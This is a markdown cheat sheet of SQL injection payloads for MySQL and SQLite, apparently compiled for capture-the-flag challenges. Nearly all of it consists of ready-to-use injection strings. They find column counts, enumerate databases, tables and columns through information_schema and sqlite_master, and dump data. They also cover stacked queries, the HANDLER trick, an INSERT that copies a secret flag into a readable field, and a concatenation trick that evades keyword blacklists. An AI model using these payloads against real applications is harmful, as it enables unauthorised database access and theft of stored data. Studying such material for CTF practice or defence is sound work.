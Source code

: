 ## MySQL

- Comment
  - `#`

- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

### Tricks

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```


## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`

### Tricks

  - Bypass blacklist words
    - `ad'||'min`

